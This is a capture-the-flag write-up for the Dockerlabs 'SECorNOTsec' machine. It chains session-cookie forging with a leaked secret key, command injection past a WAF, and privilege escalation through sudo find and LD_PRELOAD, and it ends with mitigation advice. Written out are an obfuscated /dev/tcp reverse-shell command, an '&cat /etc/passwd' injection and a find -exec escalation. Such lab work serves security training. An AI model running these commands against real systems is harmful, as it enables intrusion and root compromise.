# SECorNOTsec - Dockerlabs

**Level:** Medium

## Introduction

This laboratory presents a chain of critical vulnerabilities that demonstrate the importance of layered security. Through a series of progressive attacks, the objective is to obtain administrator access, and subsequently, root access to the system.

---

## Phase 1: Initial Enumeration

### Nmap Scanning

The laboratory begins with an nmap scan that reveals only port 5000 open:



### Web Enumeration and Gobuster

Given the limited initial information, a gobuster scan is executed while simultaneously visiting the port in the browser. A control panel is displayed, but it is restricted since we do not possess administrator permissions:



---

## Phase 2: Security Analysis and Secret Exposure

### Initialization Vector (IV) Exposure

In the source code of the web application, an alert regarding the IV (Initialization Vector) can be observed, which is **static**. The code comment recommends using a dynamic one:



### Discovery of env.bak

The gobuster scan concludes by revealing a backup file called `env.bak`, which contains the application's secret key:




---

## Phase 3: Session Cookie Forging

### Extraction and Decoding of Current Cookie

With the secret key in our possession, a clear attack vector opens: **forge the user's session cookie** using the discovered secret key. To do this, we proceed to decode the current session cookie:



**Technical Note:** To obtain the cookie, access the page inspector (F12), then navigate to Storage > Session Cookies.

### Creation of Administrator Cookie

Once decoded and confirmed that the secret key is functional, it is discovered that a critical parameter exists: `"is-admin"`. A new session cookie is created by validating this parameter as `true` using a Python script:



---

## Phase 4: Command Injection and WAF Bypass

### Exposure of the Diagnostic Console

Once administrator permissions are obtained, the main page of the website is fully exposed, revealing a "connectivity verification" tool. When executed, it internally runs the `ping` command with the provided IP, indicating that **the program is executing operating system commands directly from a console**:



### WAF Identification and Bypass

The system implements a WAF (Web Application Firewall) that blocks typical code execution characters such as `";"` or `"|"`. However, after several tests, it is discovered that the `"&"` operator **is functional**. Testing is performed by running the command `&cat /etc/passwd`, achieving success:



### Obfuscation and Reverse Shell

Since the word `"bash"` is completely blocked, a simple obfuscation method is used: `"b''ash"`. The final constructed command is:

```bash
b''ash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

This command is inserted into a file, execution permissions are granted with `&chmod +x file.sh`, and then it is executed via bash.

---

## Phase 5: First Privilege Escalation

### Initial Access as User 'firstatack'

Once the reverse shell is executed, access is obtained to the system as the user `firstatack`. The first step is to verify the available sudo permissions:

```bash
sudo -l
```



The results show that the user `firstatack` can execute the `find` command **without a password** as the user `chocolate`.

### Exploitation of find - Escalation to User 'chocolate'

The `find` command has the ability to execute other commands via the `-exec` option. This characteristic is leveraged to execute an interactive bash as the user `chocolate`:

```bash
sudo -u chocolate find . -exec /bin/bash \; -quit
```



### Verification of 'chocolate' User Permissions

The sudo permissions of the new user are verified again:



---

## Phase 6: Final Escalation to Root - LD_PRELOAD Exploitation

### LD_PRELOAD Vulnerability with SETENV Enabled

The new available binary allows exploitation of the **LD_PRELOAD** vulnerability because the `SETENV` flag is permitted in the sudo configuration.

This vulnerability works as follows:
1. A malicious shared library is created containing code to execute a bash with elevated permissions
2. The library is compiled
3. The `LD_PRELOAD` environment variable is used to force the loading of this library before system libraries
4. When executing the protected binary, the malicious library is loaded while maintaining the permissions of the owner (root)

### Execution and Obtaining Root Access

The malicious library is elaborated and compiled. It is then executed along with the protected binary without requiring a password:



**Result:** Access is obtained to a console with **root** permissions. The complete system escalation has been accomplished!

---

## Vulnerability Mitigation Recommendations

### 1. **Secure Secrets Management**
**Vulnerability:** Exposure of backup files (`env.bak`) containing secret keys.

**Recommendation:**
- Never store backup files `.bak`, `.backup` or similar in web-accessible directories
- Implement a centralized secrets management system (e.g., HashiCorp Vault, AWS Secrets Manager)
- Keep secrets only in environment variables not publicly accessible
- Implement audit and access control for sensitive files
- Use `.gitignore` to prevent accidental commits of files containing secrets

### 2. **Robust Cryptographic Validation**
**Vulnerability:** Static Initialization Vector (IV) in source code.

**Recommendation:**
- Use dynamically generated IVs for each encryption session
- Implement HMAC (Hash-based Message Authentication Code) to verify cookie integrity
- Use proven session serialization libraries (e.g., JWT with secure algorithms)
- Never rely on static values for cryptographic operations
- Perform regular code audits to identify hardcoded values

### 3. **Input Validation and Command Injection Prevention**
**Vulnerability:** Command injection through the `&` operator.

**Recommendation:**
- Implement strict whitelisting of allowed characters
- Implement robust server-side sanitization
- Avoid `os.system()` or equivalent functions; use secure alternatives like `subprocess.run()` in Python with `shell=False`
- Implement WAF with more comprehensive rules blocking dangerous character combinations
- Execute processes with minimum necessary permissions
- Validate and parse input manually instead of relying solely on WAF

### 4. **Protection of Critical Keywords**
**Vulnerability:** Filtering bypass through simple obfuscation (`b''ash`).

**Recommendation:**
- Implement behavior-based filtering, not keyword-based
- Use lexical analysis to detect obfuscation attempts
- Execute in containers or isolated environments (sandboxing)
- Limit system calls that can be performed by unauthorized users
- Implement anomaly detection based on usage patterns

### 5. **Access Control Based on Principle of Least Privilege**
**Vulnerability:** Excessive sudo permissions (user `firstatack` can use `find` as `chocolate`).

**Recommendation:**
- Strictly apply the Principle of Least Privilege
- Regularly audit all sudo configurations (`visudo`)
- Replace `find` with more restrictive alternatives when possible
- Disable dangerous internal command execution (`-exec`, `-delete`, etc.)
- Maintain a change log for permission configurations
- Use tools like `sudo-audit` to monitor executions

### 6. **LD_PRELOAD Vulnerability Mitigation**
**Vulnerability:** LD_PRELOAD exploitation with `SETENV` enabled.

**Recommendation:**
- **Never allow `SETENV` in binaries executing with elevated privileges without critical justification**
- Use `secure_path` in sudoers to control library search path
- Implement restrictive or disabled `LD_LIBRARY_PATH` through compilation
- Use AppArmor or SELinux to restrict access to shared libraries
- Cryptographically sign binaries and verify signatures before execution
- Execute critical processes in apparmor confinement mode
- Maintain continuous monitoring of changes in critical library directories

---

**Conclusion:** This laboratory demonstrates the importance of defense in depth. No individual vulnerability would have allowed total compromise, but the combination of multiple weaknesses resulted in complete root access. Effective mitigation requires attention to multiple layers of security.
